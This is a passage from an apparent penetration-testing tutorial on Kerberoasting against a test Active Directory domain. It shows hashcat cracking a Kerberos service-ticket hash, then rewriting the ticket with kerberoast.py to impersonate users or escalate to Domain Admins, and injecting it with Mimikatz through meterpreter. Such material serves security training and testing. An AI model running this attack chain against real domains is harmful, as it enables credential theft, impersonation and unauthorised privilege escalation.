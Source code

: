 ```
Status...........: Cracked
Hash.Type........: Kerberos 5 TGS-REP etype 23
Hash.Target......: $krb5tgs$23$*1-40a10000-Administrator@HTTP~testServ...c115e3
Time.Started.....: Tue Jan 10 07:41:11 2023 (0 secs)
Time.Estimated...: Tue Jan 10 07:41:11 2023 (0 secs)
Guess.Base.......: File (wordlist.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:       26 H/s (0.03ms) @ Accel:32 Loops:1 Thr:64 Vec:8
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 3/3 (100.00%)
Rejected.........: 0/3 (0.00%)
Candidates.1.....: test123  -> N0tpassword!
```

If you want to view the hash + cracked password at a later date run the above command with `--show` appended.

```
msfuser@ubuntu:~/git/kerberoast$ hashcat -m 13100 --force -a 0 hash.txt wordlist.txt --show
$krb5tgs$23$*1-40a10000-Administrator@HTTP~testService-EXAMPLE.COM*$2b5cda0496cdd9cfb11a00a9b03a0d31$76975a9115860927140
<truncated due to size>
39efa046757894679beba5b296fe0cdc11100b9a536264cb5e3cb3c6d0426acaa7dd3928895d32973fab2695476093ddbd087c115e3:N0tpassword!
```

**Rewrite Service Tickets & RAM Injection**

Kerberos tickets are signed with the NTLM hash of the password. If the ticket hash has been cracked then it is possible
to rewrite the ticket with [Kerberoast](https://github.com/nidem/kerberoast) python script. This tactic will allow users
to impersonate any domain user or a fake account when the service is going to be accessed. Additionally privilege
escalation is also possible as the user can be added into an elevated group such as Domain Admins.

```
➜  kerberoast git:(master) ✗ python3  kerberoast.py -p N0tpassword! -r 1-40a10000-Administrator@HTTP~testService-EXAMPLE.COM.kirbi -w Administrator.kirbi -u 500
```

The new ticket can be injected back into the memory with the following Mimikatz command in order to perform
authentication with the targeted service via Kerberos protocol.

```msf
meterpreter > kiwi_cmd kerberos::ptt Administrator.kirbi
```
